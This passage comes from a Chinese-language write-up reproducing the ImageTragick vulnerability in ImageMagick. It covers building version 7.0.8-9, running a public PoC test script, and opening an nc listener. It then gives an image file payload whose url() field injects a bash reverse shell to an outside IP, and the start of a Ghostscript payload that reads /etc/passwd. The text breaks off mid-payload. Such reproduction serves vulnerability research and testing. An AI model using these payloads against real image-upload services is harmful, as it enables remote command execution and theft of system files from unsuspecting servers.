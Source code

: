 #### 3.2 安装Imagemagic

```bash
c0ny1@Ubuntu /usr/local$ wget https://github.com/ImageMagick/ImageMagick/archive/7.0.8-9.tar.gz
c0ny1@Ubuntu /usr/local$ tar zxvf 7.0.8-9.tar.gz
c0ny1@Ubuntu /usr/local$ cd ImageMagick-7.0.8-9/
c0ny1@Ubuntu /usr/local/ImageMagick-7.0.8-9$ ./configure --prefix=/usr
c0ny1@Ubuntu /usr/local/ImageMagick-7.0.8-9$ make
c0ny1@Ubuntu /usr/local/ImageMagick-7.0.8-9$ make install
c0ny1@Ubuntu /usr/local/ImageMagick-7.0.8-9$ sudo ldconfig /usr/local/lib #使用新增的动态链接库生效
c0ny1@Ubuntu /usr/local/ImageMagick-7.0.8-9$ convert -version #检查是否安装成功
Version: ImageMagick 7.0.8-9 Q16 i686 2018-08-26 https://www.imagemagick.org
Copyright: ? 1999-2018 ImageMagick Studio LLC
License: https://www.imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP 
Delegates (built-in):
```

## 四、漏洞验证

#### 4.1 检测脚本

```bash
$ git clone https://github.com/ImageTragick/PoCs.git 
$ cd PoCs 
$ ./test.sh 
```

在自己服务器（此处演示为103.21.140.84）上开启监听端口7890

```bash
$ nc -vvl 7890 
```

将以下保存为test.jpg，上传到对应图片处理处。

```
push graphic-context 
viewbox 0 0 640 480 
fill 'url(https://example.com/image.jpg"|bash -i >& /dev/tcp/103.21.140.84/7890 0>&1")' 
pop graphic-context 
```

在自己服务器（此处演示为103.21.140.84）上查看是否有反弹SHELL



#### 4.2 读文件

读取/etc/passwd文件内容的poc：

```
/FileToSteal (/etc/passwd) def
errordict /undefinedfilename {
    FileToSteal % save the undefined name
} put
errordict /undefined {
    (STOLEN: ) print
    counttomark {
        ==only
    } repeat
    (\n) print
    FileToSteal
} put
errordict /invalidfileaccess {
    pop
} put
errordict /typecheck {
    pop
```